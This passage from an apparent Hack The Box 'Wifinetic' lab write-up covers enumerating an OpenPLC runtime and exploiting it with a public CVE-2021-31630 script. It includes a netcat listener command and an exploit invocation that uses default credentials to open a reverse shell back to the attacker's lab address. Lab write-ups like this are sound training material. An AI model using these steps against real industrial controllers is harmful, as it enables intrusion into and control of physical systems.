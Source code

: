In the image above, we see the status is *stopped*. Let's try to "Start PLC" and see what happens:

<div class="img_container">
![PLC start]({{https://jsom1.github.io/}}/_images/htb_wifi_run.png){: height="400px" width = "500px"}
</div>

We now see runtime logs. I gave them to chatGPT, and here's what it says about it:

- *Skipping configuration of Slave Devices (mbconfig.cfg file not found)*: that means the slave devices configuration has not been done because the configuration file *mbconfig.cfg* was not found.
  This could indicate a misconfiguration, or the use of a default configuration.
- *Warning: Persistent Storage file not found*: means that it didn't find a persistent storage file.
- *Interactive Server: Listening on port 43628*: an interactive server is listening on port 43628 and could be used to interact with the OpenPLC system.
- *Issued start_modbus() command to start on port: 502*: the *start_modbus()* command was issued to start the Modbus service on port 502 (this can be edited in the *hardware* menu).
  Modbus is a communication protocol used in industrial control systems.
- *Issued start_dnp3() command to start on port: 20000*: the *start_dnp3()* command was issued to start the DNP3 service on port 20000 (can be edited as well).
  DNP3 is a communiction protocol that is widely used in control systems and in data acquisition.
- *Issued start_enip() command to start on port: 44818*: the *start_enip()* command was issued to start the EtherNet/IP service on port 44818 (can be edited).
  EtherNet/IP is a communication protocol used in industrial applications.

At this point, there are many things we could try: upload a program, try to create a slave device, continue enumerating (*Nikto*, *dirb*, ...), search for existing exploits, and so on.
Let's check if there is anything on Metasploit:

```
searchsploit openPLC
```

This returns one python exploit for OpenPLC 3, however we don't know which version we're facing. This exploit is supposed to give remote code execution (RCE) to an authenticated user (which we are).
I tried it, but it didn't work (code errors). Also, it is weird because once in Metasploit, the *search* command doesn't find it. Instead of trying to fix it, I found another one on <a href="https://github.com/thewhiteh4t/cve-2021-31630" target="_blank">Github (CVE-2021-31630)</a>.
From the README, it directly uploads C code to /hardware instead of an st file. Then, it restores default program before uploading a C-based reverse shell. This shell is spawned in the background, so it works even after PLC is stopped.
Finally, it does some cleanup.

We can copy the code (for example in a file called *wifinetic_exploit.py*), *chmod +x* the file, start a netcat listener, and launch it:

```
ifconfig tun0 -> to get our local host address (10.10.14.2)
sudo nc -nlvp 4444 -> start a listener on port 4444
sudo python3 wifinetic_exploit.py -u openplc -p openplc -lh 10.10.14.2 -lp 4444 http://10.10.11.7:8080
```

<div class="img_container">
![exploit]({{https://jsom1.github.io/}}/_images/htb_wifi_exploit.png)
</div>

